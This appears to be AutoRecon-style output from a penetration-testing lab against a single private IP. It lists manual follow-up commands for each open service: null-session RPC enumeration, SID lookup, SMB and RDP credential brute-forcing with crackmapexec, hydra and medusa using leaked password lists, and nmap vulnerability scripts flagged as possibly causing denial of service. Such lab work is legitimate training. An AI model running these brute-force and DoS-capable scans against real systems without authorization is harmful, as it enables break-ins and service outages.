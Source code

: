 [*] msrpc on tcp/135

	[-] RPC Client:

		rpcclient -p 135 -U "" 192.168.224.250

[*] netbios-ssn on tcp/139

	[-] Bruteforce SMB

		crackmapexec smb 192.168.224.250 --port=139 -u "/usr/share/seclists/Usernames/cirt-default-usernames.txt" -p "/usr/share/seclists/Passwords/darkweb2017-top100.txt"

	[-] Nmap scans for SMB vulnerabilities that could potentially cause a DoS if scanned (according to Nmap). Be careful:

		nmap -vv --reason -Pn -T4 -T4 --min-rate=500 -sV -p 139 --script="smb-vuln-* and dos" --script-args="unsafe=1" -oN "/home/kali/Documents/Relia/results/192.168.224.250/scans/tcp139/tcp_139_smb_vulnerabilities.txt" -oX "/home/kali/Documents/Relia/results/192.168.224.250/scans/tcp139/xml/tcp_139_smb_vulnerabilities.xml" 192.168.224.250

[*] microsoft-ds on tcp/445

	[-] Bruteforce SMB

		crackmapexec smb 192.168.224.250 --port=445 -u "/usr/share/seclists/Usernames/cirt-default-usernames.txt" -p "/usr/share/seclists/Passwords/darkweb2017-top100.txt"

	[-] Lookup SIDs

		impacket-lookupsid '[username]:[password]@192.168.224.250'

	[-] Nmap scans for SMB vulnerabilities that could potentially cause a DoS if scanned (according to Nmap). Be careful:

		nmap -vv --reason -Pn -T4 -T4 --min-rate=500 -sV -p 445 --script="smb-vuln-* and dos" --script-args="unsafe=1" -oN "/home/kali/Documents/Relia/results/192.168.224.250/scans/tcp445/tcp_445_smb_vulnerabilities.txt" -oX "/home/kali/Documents/Relia/results/192.168.224.250/scans/tcp445/xml/tcp_445_smb_vulnerabilities.xml" 192.168.224.250

[*] ms-wbt-server on tcp/3389

	[-] Bruteforce logins:

		hydra -L "/usr/share/seclists/Usernames/cirt-default-usernames.txt" -P "/usr/share/seclists/Passwords/darkweb2017-top100.txt" -e nsr -s 3389 -o "/home/kali/Documents/Relia/results/192.168.224.250/scans/tcp3389/tcp_3389_rdp_hydra.txt" rdp://192.168.224.250

		medusa -U "/usr/share/seclists/Usernames/cirt-default-usernames.txt" -P "/usr/share/seclists/Passwords/darkweb2017-top100.txt" -e ns -n 3389 -O "/home/kali/Documents/Relia/results/192.168.224.250/scans/tcp3389/tcp_3389_rdp_medusa.txt" -M rdp -h 192.168.224.250

[*] msrpc on tcp/49669

	[-] RPC Client:

		rpcclient -p 49669 -U "" 192.168.224.250

[*] msrpc on tcp/49670

	[-] RPC Client:

		rpcclient -p 49670 -U "" 192.168.224.250


